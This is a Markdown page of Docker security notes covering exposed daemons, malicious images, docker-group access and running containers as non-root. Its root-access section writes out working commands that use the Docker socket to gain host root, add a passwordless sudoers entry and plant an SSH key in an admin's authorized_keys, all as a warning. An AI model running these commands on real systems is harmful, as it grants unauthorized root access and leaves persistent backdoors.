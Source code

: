 Docker Security Notes
=====================

* [Overview](README.md) | [Install/Config](config.md) | [Image Build](image.md)
  | [Registries](registries.md) | [Security](security.md) | [Misc](misc.md)
  | [Tips](tips.md) | [Compose](compose.md)

Secure Your Server and Be Careful of Malicious Images
-----------------------------------------------------

There are automated bots that scan for Docker daemons to exploit; if
you leave a port open you will get 0wned. (See 'Leveraging Docker for
Root Access' below.) The default standalone config uses only a Unix
socket, but management systems may open stuff further.

Malicious images are also a problem, and, despite Docker doing
security scanning, may be left up on [Docker Hub] for a year or more.

For details, see:
* [Cryptojacking invades cloud. How modern containerization trend is
  exploited by attackers][kromtech]


Leveraging Docker for Root Access
---------------------------------

On many systems the Docker daemon socket is owned by group `docker`
and group members have write access to the socket. It's tempting to
add users to this group so they need not `sudo docker`; don't do this!

Anybody with access to the Docker daemon socket can easily leverage this
(or unwittingly run a program that leverages this) for root access on the
host using the technique below. Thus, if you're giving someone this access,
make it explicit and clear by putting them in the `sudo` group instead.

    #   On the host, start a Docker container with a root shell
    #   that has access to all files on the host.
    docker run -it --rm --name root -v /:/host:rw alpine /bin/sh -l

    #   You are now running as root user in the docker container.
    #   Allow user `taro` to sudo to a root shell with no password.
    cd /host/etc/sudoers.d
    echo 'taro ALL=(ALL) NOPASSWD:ALL' > 50-taro
    chmod 600 50-taro
    exit

    #   Or, more subtly, if another user has sudo without password:
    cat >> /host/home/adminuser/.ssh/authorized_keys
    ssh-rsa AAAA.... ur@hacked.com
    ^D

The same of course applies to making the Docker daemon socket available
to any account (root or not) inside a container.

Further discussion and warnings from others:
- [lvh blog] for more details and a video.
- [Docker][dw-docker] on the Debian Wiki (big warning at top of page)
- [Linux users: running docker without sudo is dangerous][suixo] by suixo.


User/UID in Container
---------------------

By default Docker container processes are started as UID 0 (user
`root`), relying on the container protection to isolate the process.
It's considered better practice (though not so often done, except by
some hosting services that enforce this) to run as a different user in
the container. (This can be set with `USER` in the `Dockerfile` or
`docker run -u`.) An alternative is to use user namespaces to map
`root` in the container to a different user on the host.

When using `USER` in a `Dockerfile`, note that this affects the build
of images using that image as a base image. Generally they'll have to
user another `USER` to change back to root to install further packages
or whatever, and then change back again later. Also note that hosting
services may override the `USER` with their own `docker run -u` option,
particularly if you give a username instead of UID.

When using a different user in the container, the main problem that
usually crops up is lack of an `/etc/passwd` entry for the user.
(OpenSSH, for example, will refuse to run in this circumstance.)
[`nss_wrapper`] can be used to work around this, if you install it in
your container and use appropriate wrapper scripts or similar to
supply the following environment. You must supply both passwd and
group; it won't work with just passwd.

    LD_PRELOAD=/usr/lib/libnss_wrapper.so
    NSS_WRAPPER_PASSWD=/path/to/custom/passwd
    NSS_WRAPPER_GROUP=/path/to/custom/group

This series of posts by Graham Dumpleton is a detailed exploration of
root and non-root users in Docker containers.
* [Running IPython as a Docker container under OpenShift.][dscpl151218]  
  Why is the `jupyter/notebooks` image breaking when run on OpenShift?
  Because OpenShift doesn't run it as root.
* [Don't run as root inside of Docker containers.][dscpl151218a]  
  Example of leveraging root in a container to get root access on the host.
* [Overriding the user Docker containers run as.][dscpl151222]  
  `USER` directive in Dockerfile; `run -u` option.
* [Random user IDs when running Docker containers.][dscpl151223]  
  How to handle not knowing the UID of your container.
  Working when GID is 0 and umask settings.
* [Unknown user when running Docker container.][dscpl151224]  
  Using `nss_wrapper`.
* [Issues with running as PID 1 in a Docker container.][dscpl151229]


<!-------------------------------------------------------------------->

[Docker Hub]: https://hub.docker.com/explore/

[dw-docker]: https://wiki.debian.org/Docker
[lvh blog]: https://web.archive.org/web/20190623234615/https://www.lvh.io/posts/dont-expose-the-docker-socket-not-even-to-a-container.html
[suixo]: https://medium.com/@suixo/linux-users-running-docker-without-sudo-is-dangerous-3e5c5654abea

[`nss_wrapper`]: https://cwrap.org/nss_wrapper.html
[dscpl151218]: http://blog.dscpl.com.au/2015/12/running-ipython-as-docker-container.html
[dscpl151218a]: http://blog.dscpl.com.au/2015/12/don-run-as-root-inside-of-docker.html
[dscpl151222]: http://blog.dscpl.com.au/2015/12/overriding-user-docker-containers-run-as.html
[dscpl151223]: http://blog.dscpl.com.au/2015/12/random-user-ids-when-running-docker.html
[dscpl151224]: http://blog.dscpl.com.au/2015/12/unknown-user-when-running-docker.html
[dscpl151229]: http://blog.dscpl.com.au/2015/12/issues-with-running-as-pid-1-in-docker.html
[kromtech]: https://kromtech.com/blog/security-center/cryptojacking-invades-cloud-how-modern-containerization-trend-is-exploited-by-attackers

